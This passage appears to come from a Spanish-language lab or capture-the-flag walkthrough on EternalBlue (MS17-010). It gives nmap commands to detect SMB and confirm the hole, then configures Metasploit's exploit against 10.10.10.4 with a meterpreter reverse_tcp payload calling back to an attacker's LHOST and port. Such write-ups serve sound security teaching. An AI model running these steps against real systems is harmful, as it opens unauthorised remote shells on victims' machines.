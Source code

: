 Ejemplo:

```bash
nmap -p 445 --script smb-os-discovery 10.10.10.4
```

Salida:

```
445/tcp open  microsoft-ds
OS: Windows 7 Professional 7601 Service Pack 1
```

➡️ ¡Confirmamos que SMB está corriendo!

---

#### 🔹 Paso 2: Verificar si es vulnerable

Usamos el script `vuln` de Nmap:

```bash
nmap --script smb-vuln-ms17-010 -p445 10.10.10.4
```

Salida esperada:

```
VULNERABLE:
Microsoft SMBv1 vulnerability: MS17-010
```

✅ ¡La máquina es vulnerable a EternalBlue!

---

#### 🔹 Paso 3: Iniciar Metasploit

```bash
msfconsole
```

Buscar el exploit:

```bash
search eternalblue
```

Seleccionamos:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Configurar opciones:

```bash
set RHOSTS 10.10.10.4
set LHOST 10.10.14.9     # Tu IP de atacante (ifconfig)
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
